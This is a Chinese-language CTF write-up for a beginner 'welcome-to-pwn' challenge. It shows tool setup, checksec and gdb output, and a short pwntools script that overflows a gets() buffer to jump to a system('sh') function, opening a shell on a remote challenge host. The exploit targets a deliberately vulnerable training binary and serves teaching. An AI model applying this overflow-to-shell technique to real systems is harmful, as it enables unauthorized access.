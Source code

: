 # [2024SpringTrains] welcome-to-pwn WriteUp

## 工具准备

### 一台 Linux 系统 (推荐 Debian 系的比如 Ubuntu 或 Kali Linux 的 虚拟机 / WSL)

[Kali WSL 安装教程](https://herveyb3b4.github.io/2023/11/30/How-to-install-Kali-WSL/) ~~趁机宣传一下博客~~

### gcd 调试工具

```shell
sudo apt install gdb
```

### pwntools

```shell
sudo apt install python3-pwntools
```

或者直接使用 `pip3` 安装

```shell
python3 -m pip install pwntools
```

## 过程记录

下载后获得文件 attachment

先使用 `file` 命令查看文件类型，发现是一个 ELF 64 位程序

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ file ./attachment
./attachment: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6ad1699dcda24040006490441da0f0e70ef03456, not stripped
```

接着使用 `checksec` 命令识别安全属性

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ checksec --file=attachment
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   68 Symbols        No    0               1               attachment
```

可以发现无任何栈保护

使用 IDA 64 进行逆向

`main()` 函数

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[48]; // [rsp+0h] [rbp-30h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  puts("Welcome to Stringer CTF 2024.");
  gets(v4);
  return 0;
}
```

同时我们还能找到一个 `try_to_call_me` 函数

```c
int try_to_call_me()
{
  return system("sh");
}
```

所以我们的目标应该是利用 `gets()` 这个危险函数的缓冲区溢出漏洞，将 `v4` 变量数据溢出到覆盖返回地址，实现跳转到执行 `system("sh")` 进而去获得 flag

使用 `gdb` 运行 `attachment` 获得变量 v4 的缓冲区大小以及 `system("sh")` 对应的位置

```shell

┌──(hervey㉿Hervey)-[~/Downloads]
└─$ gdb
GNU gdb (Debian 13.2-1) 13.2
Copyright (C) 2023 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
(gdb) file attachment
Reading symbols from attachment...
(No debugging symbols found in attachment)
(gdb) disassemble main
Dump of assembler code for function main:
   0x000000000040069a <+0>:     push   %rbp
   0x000000000040069b <+1>:     mov    %rsp,%rbp
   0x000000000040069e <+4>:     sub    $0x30,%rsp
   0x00000000004006a2 <+8>:     mov    0x2009b7(%rip),%rax        # 0x601060 <stdout@@GLIBC_2.2.5>
   0x00000000004006a9 <+15>:    mov    $0x0,%ecx
   0x00000000004006ae <+20>:    mov    $0x2,%edx
   0x00000000004006b3 <+25>:    mov    $0x0,%esi
   0x00000000004006b8 <+30>:    mov    %rax,%rdi
   0x00000000004006bb <+33>:    call   0x400590 <setvbuf@plt>
   0x00000000004006c0 <+38>:    mov    0x2009a9(%rip),%rax        # 0x601070 <stdin@@GLIBC_2.2.5>
   0x00000000004006c7 <+45>:    mov    $0x0,%ecx
   0x00000000004006cc <+50>:    mov    $0x2,%edx
   0x00000000004006d1 <+55>:    mov    $0x0,%esi
   0x00000000004006d6 <+60>:    mov    %rax,%rdi
   0x00000000004006d9 <+63>:    call   0x400590 <setvbuf@plt>
   0x00000000004006de <+68>:    mov    0x20099b(%rip),%rax        # 0x601080 <stderr@@GLIBC_2.2.5>
   0x00000000004006e5 <+75>:    mov    $0x0,%ecx
   0x00000000004006ea <+80>:    mov    $0x2,%edx
   0x00000000004006ef <+85>:    mov    $0x0,%esi
   0x00000000004006f4 <+90>:    mov    %rax,%rdi
   0x00000000004006f7 <+93>:    call   0x400590 <setvbuf@plt>
   0x00000000004006fc <+98>:    lea    0xa4(%rip),%rdi        # 0x4007a7
   0x0000000000400703 <+105>:   call   0x400560 <puts@plt>
   0x0000000000400708 <+110>:   lea    -0x30(%rbp),%rax
   0x000000000040070c <+114>:   mov    %rax,%rdi
   0x000000000040070f <+117>:   mov    $0x0,%eax
   0x0000000000400714 <+122>:   call   0x400580 <gets@plt>
--Type <RET> for more, q to quit, c to continue without paging--c
   0x0000000000400719 <+127>:   mov    $0x0,%eax
   0x000000000040071e <+132>:   leave
   0x000000000040071f <+133>:   ret
End of assembler dump.
(gdb) disassemble try_to_call_me
Dump of assembler code for function try_to_call_me:
   0x0000000000400687 <+0>:     push   %rbp
   0x0000000000400688 <+1>:     mov    %rsp,%rbp
   0x000000000040068b <+4>:     lea    0x112(%rip),%rdi        # 0x4007a4
   0x0000000000400692 <+11>:    call   0x400570 <system@plt>
   0x0000000000400697 <+16>:    nop
   0x0000000000400698 <+17>:    pop    %rbp
   0x0000000000400699 <+18>:    ret
End of assembler dump.
```

从这里我们可以得知:

* 变量 `v4` 的地址位于 `rbp-30h` ，64位程序还需要再加 8 位，即 `rbp-38h`
* `system("sh")` 语句对应的地址为 `0x000000000040068b`

由此我们可以写出脚本

```python
from pwn import *
p = remote("<IP Address>", <Port>)
payload = b'A' * 0x30 + b'12345678' + p64(0x40068B)
p.sendline(payload)
p.interactive()
```

运行该脚本，进入容器终端

```shell
┌──(hervey㉿ZHW)-[~/Downloads]
└─$ python3 ./sol.py
[+] Opening connection to <IP Address> on port <Port>: Done
[*] Switching to interactive mode
Welcome to Stringer CTF 2024.
$ ls
attachment
bin
dev
flag
lib
lib32
lib64
$ cat flag
flag{<flag>}
```

进而获得 flag
